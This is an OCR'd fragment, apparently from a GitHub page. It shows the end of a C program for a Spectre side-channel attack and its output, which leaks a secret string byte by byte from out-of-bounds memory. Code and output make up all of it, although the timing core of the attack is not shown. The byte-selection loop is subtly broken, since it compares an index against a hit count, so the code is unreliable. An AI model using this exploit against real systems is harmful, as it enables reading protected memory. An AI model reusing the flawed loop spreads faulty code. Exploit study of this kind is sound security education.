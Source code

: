 ```c

    int max = 1;
    for (i = 1; i < 256; i++) {
      if(max < scores[i])
        max = i;
    }

    size_t idx = strlen(spectre_secret);
    spectre_secret[idx] = (char) max;

    printf("Reading secret value at index %ld\n", index_beyond);
    printf("The secret value is %d(%c)\n", max, max);
    printf("The number of hits is %d\n", scores[max]);
  }

  printf("Final Secret: %s", spectre_secret);

  return (0); 
}
```

The given output:

```
*****
*****
Reading secret value at index -8272
The secret value is 83(S)
The number of hits is 208
*****
*****
Reading secret value at index -8272
The secret value is 111(o)
The number of hits is 228
*****
*****
Reading secret value at index -8272
The secret value is 109(m)
The number of hits is 128
*****
*****
Reading secret value at index -8272
The secret value is 101(e)
The number of hits is 173
*****
*****
Reading secret value at index -8272
The secret value is 32( )
The number of hits is 264
*****
*****
Reading secret value at index -8272
The secret value is 83(S)
The number of hits is 209
*****
*****
Reading secret value at index -8272
The secret value is 101(e)
The number of hits is 196
*****
*****
Reading secret value at index -8272
The secret value is 99(c)
The number of hits is 178
```